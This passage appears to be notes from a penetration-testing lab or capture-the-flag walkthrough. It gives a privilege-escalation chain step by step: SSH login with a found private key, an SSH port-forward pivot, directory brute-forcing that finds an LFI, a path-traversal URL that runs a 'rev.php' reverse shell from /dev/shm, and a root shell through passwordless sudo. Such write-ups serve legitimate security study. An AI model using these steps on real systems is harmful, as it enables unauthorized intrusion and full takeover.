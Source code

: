 - Use the SSH private key found on `245` to obtain a SSH session as `anita`.
# PrivEsc
- Find virtual host running locally at port 8000. Pivot using `ssh -v -N -L 8195:127.0.0.1:8000 anita@192.168.205.246 -p 2222 -i id_rsa_anita`.
- Run `feroxbuster -u http://127.0.0.1:8195 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x "txt,html,php,asp,aspx,jsp" -t 10 -k -e -r` to discover URL `http://127.0.0.1:8195/backend/?view=user.inc` vulnerable to `LFI`.
- Transfer `rev.php` payload to `/dev/shm` since, for some reason, `/tmp` is not accessible by `www-data`. Receive a reverse shell call back by visiting `http://127.0.0.1:8195/backend/?view=../../../../../../../../../../../../dev/shm/rev.php`.
- `www-data` can run any command as root without password which is identified by running `sudo -l`.
- Obtain a `root` shell by running `sudo bash -i`.